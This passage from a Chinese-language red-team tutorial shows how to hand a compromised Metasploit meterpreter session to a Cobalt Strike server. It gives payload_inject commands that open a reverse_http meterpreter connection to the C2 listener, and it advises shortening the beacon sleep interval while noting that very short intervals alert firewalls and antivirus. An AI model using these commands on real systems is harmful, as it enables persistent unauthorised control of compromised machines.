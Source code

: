 
![image-20211217102415410](https://gitee.com/xxb667/img/raw/master/img/image-20211217102415410.png)

#### 添加监听

![image-20211217102629234](https://gitee.com/xxb667/img/raw/master/img/image-20211217102629234.png)

#### 查看添加

![image-20211217102939066](https://gitee.com/xxb667/img/raw/master/img/image-20211217102939066.png)

#### kali里面的操作

一定是渗透连接到主机之后，挂起meterpreter才可以进行以下命令

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一                                   个，所以不需要在产生一个，所以这里我们设置为true
set lhost 192.168.0.32        #cobaltstrike监听的ip   就是服务端的IP
set lport 14444                 #cobaltstrike监听的端口 
set session 1                   #这里是获得的session的id
exploit
```

![image-20211217131658523](https://gitee.com/xxb667/img/raw/master/img/image-20211217131658523.png)

#### 返回cobaltstrike进行查看

我们打开cs 可以看到主机已经上线

![image-20211217133620982](https://gitee.com/xxb667/img/raw/master/img/image-20211217133620982.png)

### 建立会话交互

鼠标右键 ---会话交互

![image-20211217133738094](https://gitee.com/xxb667/img/raw/master/img/image-20211217133738094.png)

因为60秒执行一次命令，要等待的时间太长  我们改为2 秒，实战中不能改的太短，太短会引起防火墙或者杀软注意

在最下面 beacon  输入 sleep2  

![image-20211217134000918](https://gitee.com/xxb667/img/raw/master/img/image-20211217134000918.png)

### 查看命令

输入 help查看命令

![image-20211217134138094](https://gitee.com/xxb667/img/raw/master/img/image-20211217134138094.png)

### 抓取密码 
